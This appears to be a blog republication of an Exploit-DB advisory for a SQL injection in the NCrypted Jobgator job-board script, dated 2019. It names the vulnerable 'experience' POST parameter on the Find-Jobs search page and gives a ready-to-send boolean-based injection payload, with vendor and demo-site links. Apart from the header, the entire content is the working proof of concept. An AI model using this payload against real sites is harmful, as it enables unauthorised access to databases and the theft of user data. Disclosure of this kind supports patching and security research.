 ```yaml
---
layout:     post
title:      "Jobgator - 'experience' SQL Injection"
date:       2019-04-08 12:00
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: NCrypted Jobgator - SQL Injection
# Date: 05.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.ncrypted.net/jobgator/
# Demo Site: https://demo.ncryptedprojects.com/jobgator/
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A

----- PoC 1: SQLi -----

Request: http://localhost/[PATH]/agents/Find-Jobs
Vulnerable Parameter: experience (POST)
Payload: btnsearch=Search&experience=1" OR NOT
4365=4365#&job_title=Mr.&location=1
